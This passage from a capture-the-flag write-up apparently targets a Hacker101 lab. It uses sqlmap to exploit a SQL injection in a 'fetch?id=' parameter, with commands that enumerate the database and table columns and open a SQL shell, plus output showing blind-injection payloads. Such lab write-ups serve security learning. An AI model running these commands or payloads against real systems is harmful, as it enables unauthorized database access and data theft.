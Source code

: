 ```log
[...]

Database: level5
[2 tables]
+--------+
| albums |
| photos |
+--------+
```

Again, this is confirmed by the source code. Can we extract anything more? Let's see the columns of the table `photos`:

```
sqlmap -u "https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=1" --threads 8 -D level5 -T photos --columns
```

```log
[...]

Database: level5
Table: photos
[4 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| filename | text    |
| id       | int(11) |
| parent   | int(11) |
| title    | text    |
+----------+---------+
```

Ok, so the source code literally told us everything about this table. Can we have a more direct access to the database though? What about a mysql shell?

```
sqlmap -u "https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=1" --threads 8 --sql-shell
```

After disabling the threads when sqlmap asks:

```log
[...]

[18:15:43] [INFO] resuming back-end DBMS 'mysql' 
[18:15:43] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 2374=2374

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: id=1 OR SLEEP(5)
---
[18:15:45] [INFO] the back-end DBMS is MySQL
web application technology: OpenResty 1.19.9.1
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:15:45] [INFO] calling MySQL shell. To quit type 'x' or 'q' and press ENTER
sql-shell>
```
